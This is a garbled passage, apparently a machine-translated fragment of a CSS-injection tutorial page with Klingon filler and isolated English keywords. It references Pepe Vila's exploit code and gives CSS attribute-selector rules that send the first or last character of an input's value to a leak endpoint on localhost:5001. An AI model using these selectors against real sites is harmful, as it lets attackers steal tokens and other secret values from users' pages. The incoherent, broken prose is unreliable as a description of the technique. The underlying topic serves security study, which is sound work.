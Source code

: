 **attacker** **follow** **loop** **leak** **secret** **completely**.

**Pepe Vila's code** **exploit** **original** [**here**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) **code** **same** **almost** [**here**](./#css-injection).

{% hint style="info" %}
**script** **chars** **discover** **try** **time** **(beginning 'ej end)** **attribute selector** **allows** **things** **like**:
```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```
{% hint style="info" %}
**ghItlhutlh**:
qaStaHvIS **script** **leak** **ghItlhutlh** **qet**.
{% endhint %}

{% hint style="warning" %}